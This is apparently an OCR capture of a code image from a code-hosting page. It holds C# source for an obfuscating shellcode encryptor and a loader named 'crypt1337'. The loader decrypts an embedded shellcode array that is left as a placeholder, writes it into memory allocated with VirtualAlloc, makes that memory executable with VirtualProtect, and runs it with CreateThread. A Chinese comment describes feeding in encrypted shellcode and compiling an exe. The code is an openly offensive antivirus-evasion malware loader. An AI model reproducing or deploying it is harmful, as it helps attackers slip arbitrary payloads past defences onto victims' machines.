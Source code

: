 ```C#
            for (int i = 0; i < buf.Length; i++)
            {
                for (int n = 0; n < i; n++)
                {
                    bufclone[i]++;
                }
                lolbuf.Append("0x");
                lolbuf.AppendFormat("{0:x2}", bufclone[i]);
                if (i < buf.Length - 1)
                    lolbuf.Append(", ");
            }
            lolbuf.Append(" };");
            return lolbuf.ToString();
        }
    }
}

// 输入加密的shellcode，编译exe
using System;
using System.Text;
using System.Runtime.InteropServices;


namespace crypt1337
{
    class Program
    {
        const int SW_HIDE = 0;
        const int SW_SHOW = 5;
        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        static void Main(string[] args)
        {
            byte[] haha = new byte[835] { encrypt_shellcode };
            byte[] heihei = l337deCryptPlusPlus(haha);

            UInt32 funcAddr = VirtualAlloc(0, (UInt32)heihei.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(heihei, 0, (IntPtr)(funcAddr), heihei.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            uint lpflOldProtect = 0x01;
            VirtualProtect((IntPtr)(funcAddr), (UInt32)heihei.Length, 0x10, lpflOldProtect);
            /// execute native code
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
        private static byte[] l337deCryptPlusPlus(byte[] buf)
        {
            StringBuilder lolbuf = new StringBuilder();

            byte[] bufclone = (byte[])buf.Clone();
            for (int i = 0; i < buf.Length; i++)
            {
                for (int n = 0; n < i; n++)
                {
                    bufclone[i]--;
                }
            }
            return bufclone;
        }

```

[go/shellcode_inject/virtual>>]: generate